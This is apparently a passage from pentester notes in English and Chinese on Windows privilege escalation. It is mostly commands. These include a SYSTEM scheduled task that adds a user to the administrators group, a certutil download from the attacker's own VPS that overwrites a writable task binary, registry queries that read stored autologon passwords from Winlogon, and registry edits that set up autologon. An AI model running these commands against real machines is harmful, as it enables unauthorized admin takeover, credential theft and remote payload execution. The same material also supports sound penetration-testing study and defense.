 ```bat

#Schtask to give admin access
#You can also write that content on a bat file that is being executed by a scheduled task
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators user /add"

at # early windows, xp

#分析计划任务  查找行为，比如exe，脚本什么的
$task= Get-ScheduledTask -TaskName 计划任务名 
ForEach ($triger in $task.Triggers) { echo $triger.Repetition.Interval}

# 查找计划任务行为所在目录，低权限用户是否具有可写权限  accesschk.exe  当然也可以用icacls命令
# “M”表示修改，“F”代表完全控制，“CI”代表从属容器将继承访问控制项，“OI”代表从属文件将继承访问控制项。
accesschk64.exe -accepteula -wv lowuser C:\ScheduledTasks\Task1\1111.exe

#直接替换
certutil -urlcache -split -f "http://你的vps/1111.exe" C:\ScheduledTasks\Task1\1111.exe
#等待计划任务执行
```

### AutoRun
Auto run to privesc, [hacktricks autorun](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries)
> schetask 属于autorun 的内容， 作为官方介绍的方式单独列出；

+ autologon, check reg to get password
+ autorun, check if have write permission to the folder or binary in reg(Run/RunOcne/RunonceEx/ServiceRun..)
+ start up path, check permission of the folder under HKLM
+ ...

```powershell
# wmic check startup program and command
wmic startup get caption,command 2>nul & ^
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl

# startup folder 
dir /b "C:\Documents and Settings\All Users\Start Menu\Programs\Startup" 2>nul
dir /b "C:\Documents and Settings\%username%\Start Menu\Programs\Startup" 2>nul
dir /b "%programdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
dir /b "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"

# auto logon cmd search
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername" #command prompt

# auto run check, powerup; lots of registry
Get-ModifiableRegistryAutoRun


# auto logon example, add reg; admin privilege
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomain /t REG_SZ /d "PC-jack-0day" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /t REG_SZ /d "jack" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /t REG_SZ /d "admin" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /t REG_SZ /d  1 /f

```
